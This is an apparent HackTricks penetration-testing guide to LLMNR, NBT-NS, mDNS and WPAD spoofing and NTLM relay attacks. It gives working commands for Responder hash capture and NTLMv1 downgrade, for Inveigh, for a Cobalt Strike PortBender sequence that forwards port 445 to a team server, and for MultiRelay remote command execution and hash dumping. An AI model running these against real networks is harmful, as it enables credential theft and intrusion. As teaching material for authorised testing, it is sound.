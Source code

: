 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

{{#include ../../banners/hacktricks-training.md}}

## Network Protocols

### Local Host Resolution Protocols

- **LLMNR, NBT-NS, and mDNS**:
  - Microsoft and other operating systems use LLMNR and NBT-NS for local name resolution when DNS fails. Similarly, Apple and Linux systems use mDNS.
  - These protocols are susceptible to interception and spoofing due to their unauthenticated, broadcast nature over UDP.
  - [Responder](https://github.com/lgandx/Responder) can be used to impersonate services by sending forged responses to hosts querying these protocols.
  - Further information on service impersonation using Responder can be found [here](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Web Proxy Auto-Discovery Protocol (WPAD)

- WPAD allows browsers to discover proxy settings automatically.
- Discovery is facilitated via DHCP, DNS, or fallback to LLMNR and NBT-NS if DNS fails.
- Responder can automate WPAD attacks, directing clients to malicious WPAD servers.

### Responder for Protocol Poisoning

- **Responder** is a tool used for poisoning LLMNR, NBT-NS, and mDNS queries, selectively responding based on query types, primarily targeting SMB services.
- It comes pre-installed in Kali Linux, configurable at `/etc/responder/Responder.conf`.
- Responder displays captured hashes on the screen and saves them in the `/usr/share/responder/logs` directory.
- It supports both IPv4 and IPv6.
- Windows version of Responder is available [here](https://github.com/lgandx/Responder-Windows).

#### Running Responder

- To run Responder with default settings: `responder -I <Interface>`
- For more aggressive probing (with potential side effects): `responder -I <Interface> -P -r -v`
- Techniques to capture NTLMv1 challenges/responses for easier cracking: `responder -I <Interface> --lm --disable-ess`
- WPAD impersonation can be activated with: `responder -I <Interface> --wpad`
- NetBIOS requests can be resolved to the attacker's IP, and an authentication proxy can be set up: `responder.py -I <interface> -Pv`

### DHCP Poisoning with Responder

- Spoofing DHCP responses can permanently poison a victim's routing information, offering a stealthier alternative to ARP poisoning.
- It requires precise knowledge of the target network's configuration.
- Running the attack: `./Responder.py -I eth0 -Pdv`
- This method can effectively capture NTLMv1/2 hashes, but it requires careful handling to avoid network disruption.

### Capturing Credentials with Responder

- Responder will impersonate services using the above-mentioned protocols, capturing credentials (usually NTLMv2 Challenge/Response) when a user attempts to authenticate against the spoofed services.
- Attempts can be made to downgrade to NetNTLMv1 or disable ESS for easier credential cracking.

It's crucial to note that employing these techniques should be done legally and ethically, ensuring proper authorization and avoiding disruption or unauthorized access.

## Inveigh

Inveigh is a tool for penetration testers and red teamers, designed for Windows systems. It offers functionalities similar to Responder, performing spoofing and man-in-the-middle attacks. The tool has evolved from a PowerShell script to a C# binary, with [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) and [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) as the main versions. Detailed parameters and instructions can be found in the [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh can be operated through PowerShell:

```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```

Or executed as a C# binary:

```bash
Inveigh.exe
```

### NTLM Relay Attack

This attack leverages SMB authentication sessions to access a target machine, granting a system shell if successful. Key prerequisites include:

- The authenticating user must have Local Admin access on the relayed host.
- SMB signing should be disabled.

#### 445 Port Forwarding and Tunneling

In scenarios where direct network introduction isn't feasible, traffic on port 445 needs to be forwarded and tunneled. Tools like [**PortBender**](https://github.com/praetorian-inc/PortBender) help in redirecting port 445 traffic to another port, which is essential when local admin access is available for driver loading.

PortBender setup and operation in Cobalt Strike:

```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```

### Other Tools for NTLM Relay Attack

- **Metasploit**: Set up with proxies, local and remote host details.
- **smbrelayx**: A Python script for relaying SMB sessions and executing commands or deploying backdoors.
- **MultiRelay**: A tool from the Responder suite to relay specific users or all users, execute commands, or dump hashes.

Each tool can be configured to operate through a SOCKS proxy if necessary, enabling attacks even with indirect network access.

### MultiRelay Operation

MultiRelay is executed from the _**/usr/share/responder/tools**_ directory, targeting specific IPs or users.

```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```

These tools and techniques form a comprehensive set for conducting NTLM Relay attacks in various network environments.

### Force NTLM Logins

In Windows you **may be able to force some privileged accounts to authenticate to arbitrary machines**. Read the following page to learn how:

{{#ref}}
../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md
{{#endref}}

## References

- [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
- [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
- [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
- [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
- [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

{{#include ../../banners/hacktricks-training.md}}


